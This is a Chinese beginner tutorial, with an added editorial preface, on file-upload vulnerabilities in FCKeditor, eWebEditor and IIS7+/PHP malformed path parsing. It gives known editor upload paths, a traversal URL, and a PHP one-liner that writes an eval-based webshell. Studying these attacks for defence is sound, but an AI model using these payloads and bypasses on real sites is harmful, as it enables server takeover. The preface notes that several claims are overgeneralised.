# [网络安全] 十四. 文件上传漏洞 (3) 编辑器漏洞和 IIS 高版本漏洞及防御

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 证据范围：综合教学应多主题索引，不当成单独IIS高版本漏洞；给出配置前提但过度概括。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺FCK/eWeb具体版本、连接器语言、IIS/PHP版本及handler映射要求
- cgi.fix_pathinfo开启并非单独充分条件，FastCGI/路径映射/扩展限制等需配合；Nginx<0.8.03版本声称无来源
- 将生成shell.php文件位置说成1.jpg/shell.php把请求PATH_INFO与真实文件路径混淆
- .asa任意文件可直接当ASP执行受IIS映射/保护限制，不能泛化
- 修改web.config需上传到生效目录、允许覆写处理器且配置节未锁定，文章略去
- 大量关键配置只有图片；标题说防御但未有系统防御章节，得到Web执行与提权术语混用
- 裸公网IP与外部工具来源应替换为实验示例、保留来源不执行；系列推广占尾部

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/gUOWQ6jcehQS8A3RqTnc3A)

最近开始学习网络安全和系统安全，接触到了很多新术语、新方法和新工具，作为一名初学者，感觉安全领域涉及的知识好广、好杂，但同时也非常有意思。所以我希望通过这 100 多篇网络安全文章，将 Web 渗透的相关工作、知识体系、学习路径和探索过程分享给大家。未知攻，焉知防，且看且珍惜。

前文分享了文件上传漏洞和 IIS6.0 解析漏洞，包括 PHP345 文件绕过上传、Windows ::$DATA 绕过、Apache 解析漏洞上传等。这篇文章将分享编辑器漏洞和 IIS 高版本文件上传漏洞，包括 FCKeditor、eWebEditor、畸形解析漏洞等，同时结合 Caidao 工具介绍拿站的流程及防御原理。非常基础的文章，希望对入门的博友们有帮助，大神请飘过，谢谢各位看官！

娜璋 AI 安全之家将专注于 Python 和安全技术，主要分享 Web 渗透、系统安全、人工智能、大数据分析、图像识别、恶意代码检测、CVE 复现、威胁情报分析等文章。真心想把自己近十年的所学所做所感分享出来，与大家一起进步。

> 声明：本人坚决反对利用教学方法进行恶意攻击的行为，一切错误的行为必将受到严惩，绿色网络需要我们共同维护，更推荐大家了解技术背后的原理，更好地进行安全防护。虽然作者是一名安全小白，但会保证每一篇文章都会很用心地撰写，希望基础性文章对你有所帮助，安全路上一起前行。
> 
> - https://github.com/eastmountyxz/NetworkSecuritySelf-study

文章目录：

*   一. 编辑器漏洞  
    1. 编辑器  
    2.FCKeditor 编辑器漏洞利用  
    3.eWebEditor 编辑器漏洞
    
*   二. IIS 高版本上传  
    1. 畸形解析漏洞  
    2. 案例分析  
    3.aspx 漏洞
    

一. 编辑器漏洞
========

1. 编辑器
------

编辑器属于第三方软件，它的作用是方便网站管理员上传或编辑网站上的内容，类似我们电脑上的 Word 文档。

编辑器通常分为两种情况：  
(1) 不需要后台验证，可以直接在前台访问且操作。通过方法找到编辑器，再进行目录爆破（用御剑去扫描网站的目录）和蜘蛛爬行（AWS 扫描器判断是否存在网站编辑器）。

通常存在的域名如下，很可能会存在编辑器。

*    www.xxx.com/edit
    
*   www.xxx.com/uploadfiles
    



(2) 需要后台验证，才能操作编辑器。先通过漏洞或其他方法登录后台。



常用编辑器包括：

*   FCKeditor
    
*   EWEbeditor
    
*   CKFinder
    
*   UEDITOR
    
*   DotNet TextBox
    
*   Cute Editor
    

其中，用的次数较多的两种编辑器是 FCK 和 eWEB，本篇博客将用这两种编辑器作演示。

2.FCKeditor 编辑器漏洞利用
-------------------

FCKeditor 常见上传目录：

*   FCKeditor/editor/filemanager/browser/default/connectors/test.html
    
*   FCKeditor/editor/filemanager/upload/test.html
    
*   FCKeditor/editor/filemanager/connectors/test.html
    
*   FCKeditor/editor/filemanager/connectors/uploadtest.html
    

(1) FCK 编辑器漏洞 —— “.” 变 “_” 绕过方法  
在高版本 fck 中，直接上传或抓包修改文件名 “a.asp;.jpg”，都会将前面的点变成下划线，也就是变成 “a_asp;.jpg”，这样我们的文件名解析就无效果了。绕过方法是突破建立文件夹，其实质是利用我们 IIS6.0 的目录解析（参考上一篇文章）。

编辑器漏洞利用常见步骤如下：

*   找到编辑器。可以通过编辑器路径的文件名来判断是什么编辑器。
    
*   确认版本。
    
*   搜索该版本编辑器的漏洞利用。
    

假设路径为如下，文件名中包含 “fck”，可以直接判定为 FCK 编辑器。打开如下图所示：

*   /fckeditor/editor/filemanager/connectors/test.html
    



在 FCKeditor 中选中 “a.asp;.png” 并成功上传，如下图所示。



打开服务器，可以看到成功上传的图片文件。它名字被修改为 “a_asp;.png”，这就是 FCK 高版本的过滤，它将“.” 修改为“_”。



(2) FCK 编辑器还有一个突破文件上传漏洞  
它是利用 IIS6 的目录解析漏洞，我们先建立一个 “a.asp” 文件夹，然后上传图片一句话木马 “a_asp;.png”，IIS6 目录解析漏洞会将“a.asp” 目录下的文件都解析成 asp 文件去执行。

第一步，打开 FCK 编辑器并在 “a.asp” 目录下上传一个 “b.asp” 文件夹。注意，在 “Current Folder” 中需要填写“/a.asp”。



第二步，打开 BurpSuite 软件抓包。



可以看到，我们在 a.asp 目录下创建了 “b_asp” 文件夹，这是因为 “.” 被 FCK 漏洞替换成了“_”。



第三步，这样 “a.asp” 文件夹就被成功创建，接着将一句话木马上传至该文件夹中。



上传之后如下图所示：



当一句话木马上传成功之后，我们就可以成功利用 Caidao 进行 Webshell 目录获取了。最后补充一个 FCK 编辑器漏洞综合利用工具：https://www.webshell.cc/4479.html



3.eWebEditor 编辑器漏洞
------------------

eWebEditor 编辑器漏洞利用的流程如下：

*   **(1) 进后台**  
    eWeb 编辑器需要登录后台，其默认数据库地址是：
    
    ewebeditor/db/ewebeditor.mdb
    
*   **(2) eweb 遍历漏洞**  
    利用该漏洞遍历文件目录、查看整个网站结构及敏感信息  
    ewebeditor/admin_uploadfile.asp?id=14&dir=./
    
*   **(3) 修改样式表上传文件**
    

如下图，这里选择某个样式表进行设置。



然后在图片类型中，增加 “asa” 类型。“.asa”可以被当成 “.asp” 文件去执行，而网站可能会过滤 “asp” 类型的后缀，所以这里添加“.asa”。



打开 “工具栏”，显示如下图所示：



点击 “按钮设置”，准备添加按钮。



选择 “插入或修改图片”，然后 “保存设置”。



此时返回页面，点击 “预览” 可以看到我们已经添加的 “插入或修改图片” 按钮。



然后直接上传 “1.asa” 文件，如下图所示。



然后点击代码，可以看到这是一个木马的文件路径。



所以，编辑器其实就是一个上传点，通过解析漏洞或多种文件上传漏洞可以实现绕过并上传一句话木马，从而提权。

二. IIS 高版本上传
============

IIS6.0 毕竟是一个低版本，除了靶场和僵尸站很少能够遇到。真实的渗透中，会遇到很多的问题，比如 WAF、高版本过滤、安全狗、被拦截绕过、不解析等等。接下来分享一个 IIS 高版本上传思路。

1. 畸形解析漏洞
---------

畸形解析漏洞影响版本：IIS7、IIS7.5、Nginx<0.8.03，漏洞产生条件是开启 Fast-CGI 或 php 配置文件中 cgi.fix_pathinfo。

其漏洞不是 IIS 本身的问题，而是 PHP 配置不当造成的问题，根本原因是开启了 cgi.fix_pathinfo 选项。由于该漏洞是 php 配置造成，并且默认开启该功能，所以它影响了 IIS7、IIS7.5、IIS8.5 等多个版本，凡是 IIS+PHP 都有可能会有这个漏洞。

漏洞利用方法：当我们上传一张名为 “1.jpg” 的图片文件，并且这张图片文件里包含以下代码。

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>'); ?>
```

那么它会生成一个叫 shell.php 的脚本文件，并写入我们的一句话，密码为 cmd。而一句话的位置是：上传的图片文件名字 “/shell.php”。如果图片没有被改名，那么现在我们的一句话文件在“1.jpg/shell.php” 中。

2. 案例分析
-------

假设我们向 IIS+PHP 搭建的远程服务器上传 “1.jpg” 文件。



开启服务器如下图所示：



“1.jpg” 代码包含如下代码 ，它能显示 PHP 配置信息。

```
<?php phpinfo(); ?>
```



通过 URL 能够访问 PHP 的版本信息，如下图所示。该 URL 运行了我们的 PHP 代码，所以才返回相应的配置信息。在 URL（49.234.12.78/1.jpg/.php）中，首先访问 “.php” 文件，它是不存在的，所以跳到前面的 “1.jpg” 位置，而 “1.jpg” 是存在的并且包含 php 代码，就会把它当成 php 文件去执行，并获取 PHP 配置信息。



为什么 IIS 高版本会存在这个漏洞呢？  
这是因为 IIS 高版本在搭建 php 网站的时候，它会开启 CGI/FastCGI，并且 php 配置文件选项默认开启。所以，该畸形解析漏洞不光存在于 IIS7、IIS7.5，还有 IIS8、IIS10 等版本。



接着我们演示另一个代码，将 “1.jpg” 内容修改如下，直接写入 shell。

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd])?>'); ?>
```



访问 “/1.jpg/shell.php” 显示的内容为空。



但是此时会在服务器生成一个名为 “shell.php” 的文件，如下图所示：



并且 “shell.php” 包含了我们的一句话木马。



这样通过 Caidao 即可访问该页面，并获取服务器的文件目录。

3.aspx 漏洞
---------

aspx 它有一个 “web.config” 的配置文件，它规定我们上传文件的后缀。



我们可以自定一个后缀名来解析 aspx 文件。



换句话说，当我们遇到可以上传配置文件的时候，则上传我们修改好的配置文件，然后自定义一个后缀名如 “.ad”，从而绕过 WAF 或检测，上传成功之后它会解析成 aspx 并执行。如下图所示：



所以，当我们遇到可以上传配置文件的时候，通过该方法实现绕过，从而提权。

三. 总结
=====

写到这里，这篇基础性文章就此结束，后面会继续分享文件上传漏洞。作者是这个领域的菜鸟一枚，希望与您共同进步，共勉。如果文章对您有帮助，将是我最大的鼓励，点赞、评论、阅读都行，与您同行，加油。

前文分享（下面的超链接可以点击喔）：

*   [[网络安全] 一. Web 渗透入门基础与安全术语普及](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247483786&idx=1&sn=d9096e1e770c660c6a5f4943568ea289&chksm=cfccb147f8bb38512c6808e544e1ec903cdba5947a29cc8a2bede16b8d73d99919d60ae1a8e6&scene=21#wechat_redirect)
    
*   [[网络安全] 二. Web 渗透信息收集之域名、端口、服务、指纹、旁站、CDN 和敏感信息](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247483849&idx=1&sn=dce7b63429b5e93d788b8790df277ff3&chksm=cfccb104f8bb38121c341a5dbc2eb8fa1723a7e845ddcbefe1f6c728568c8451b70934fc3bb2&scene=21#wechat_redirect)
    
*   [[网络安全] 三. 社会工程学那些事及 IP 物理定位](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247483994&idx=1&sn=1f2fd6bea13365c54fec8e142bb48e1d&chksm=cfccb297f8bb3b8156a18ae7edaba9f0a4bd5e38966bdaceeff03a5759ebd216a349f430f409&scene=21#wechat_redirect)
    
*   [[网络安全] 四. 手工 SQL 注入和 SQLMAP 入门基础及案例分析](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247484068&idx=1&sn=a82f3d4d121773fdaebf1a11cf8c5586&chksm=cfccb269f8bb3b7f21ecfb0869ce46933e236aa3c5e900659a98643f5186546a172a8f745d78&scene=21#wechat_redirect)
    
*   [[网络安全] 五. XSS 跨站脚本攻击详解及分类 - 1](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247484381&idx=1&sn=a1d459a7457b56b02e217f39e5161338&chksm=cfccb310f8bb3a06442b001fc7b38a0363b9fbd4436f450b0ce6fa2eeb5c796fc936ceb5d6fa&scene=21#wechat_redirect)
    
*   [[网络安全] 六. XSS 跨站脚本攻击靶场案例九题及防御方法 - 2](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485174&idx=1&sn=245b812489c845e875cf4bc4763747b7&chksm=cfccb63bf8bb3f2d537f36093de80dbeed5a340b141001d3ef8a9ac9d6336e0aaf62b013a54c&scene=21#wechat_redirect)
    
*   [[网络安全] 七. Burp Suite 工具安装配置、Proxy 基础用法及暴库入门示例](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485381&idx=1&sn=9a0230cf22eba0a24152cb0e73a37224&chksm=cfccb708f8bb3e1ecf68078746521191921f41d19a0b82cb3f097856dad7a85c4d9c34750b3f&scene=21#wechat_redirect)
    
*   [[网络安全] 八. Web 漏洞及端口扫描之 Nmap、ThreatScan 和 DirBuster 工具](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485437&idx=1&sn=2a7179464207fa68b708297ec0db6f00&chksm=cfccb730f8bb3e2629edb5ca114de79723e323512be9538a4d512297f8728a3a9d7718389b60&scene=21#wechat_redirect)
    
*   [[网络安全] 九. Wireshark 安装入门及抓取网站用户名密码 - 1](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485465&idx=1&sn=8e7f1f5790bfe754affe0599a3fce1ee&chksm=cfccb8d4f8bb31c2ca36f6467d700f4e4d7821899a6d5173ac0b525f0f6227c8392252b5c775&scene=21#wechat_redirect)
    
*   [[网络安全] 十. Wireshark 抓包原理、ARP 劫持、MAC 泛洪及数据流追踪 - 2](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485551&idx=1&sn=15f00e14f4376e179a558444de8ef0a5&chksm=cfccb8a2f8bb31b456499a937598e750661841b5ca166a12073e343a049737fa3131fd422dc5&scene=21#wechat_redirect)
    
*   [[网络安全] 十一. Shodan 搜索引擎详解及 Python 命令行调用](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485599&idx=1&sn=0c60c042911fc79287417c2385550430&chksm=cfccb852f8bb3144a89f6b0d0df6c185a208aa989d98f8c7e3b7d741dedc371b3ecb4e70a747&scene=21#wechat_redirect)
    
*   [[网络安全] 十二. 文件上传漏洞 (1) 基础原理及 Caidao 入门知识](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485787&idx=1&sn=0c75cf81c4234031273bced4dff0b25c&chksm=cfccb996f8bb3080fe9583043b43665095fd6935a4147a2bb0d1ab9b91a6cde99da4747c5201&scene=21#wechat_redirect)
    
*   [[网络安全] 十三. 文件上传漏洞 (2) 常用绕过方法及 IIS6.0 解析漏洞](http://mp.weixin.qq.com/s?__biz=Mzg5MTM5ODU2Mg==&mid=2247485833&idx=1&sn=a613116633338ca85dfd1966052b0b02&chksm=cfccb944f8bb305296a32dac7f0942e727d66dc9f710bfb82c3597500e97d39714ecd2ed18cf&scene=21#wechat_redirect)
    
*   [网络安全] 十四. 文件上传漏洞 (3) 编辑器漏洞和 IIS 高版本漏洞及防御
    

最后，真诚地感谢您关注 “娜璋之家” 公众号，也希望我的文章能陪伴你成长，希望在技术路上不断前行。文章如果对你有帮助、有感悟，就是对我最好的回报，且看且珍惜！再次感谢您的关注，也请帮忙宣传下“娜璋之家”，哈哈~ 初来乍到，还请多多指教。


(By:Eastmount 2020-12-04 夜于武汉)

本文参考了 B 站、51CTO 学院（Threey 老师）和参考文献中的文章，并结合自己的经验进行撰写，也推荐大家阅读参考文献。

*   2019 文件上传漏洞专题渗透入门网络安全黑客 web 攻防详解 (FoxB 站强推)
    
*   https://github.com/eastmountyxz
    
*   《Web 安全深度剖析》
    
*   《黑客攻防技术宝典浏览器实战篇》
    
*   https://www.bilibili.com/video/av60018118
    
*   https://www.bilibili.com/video/av63038037
    
*   IIS6.0 容器之解析漏洞复现 - Louisnie

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
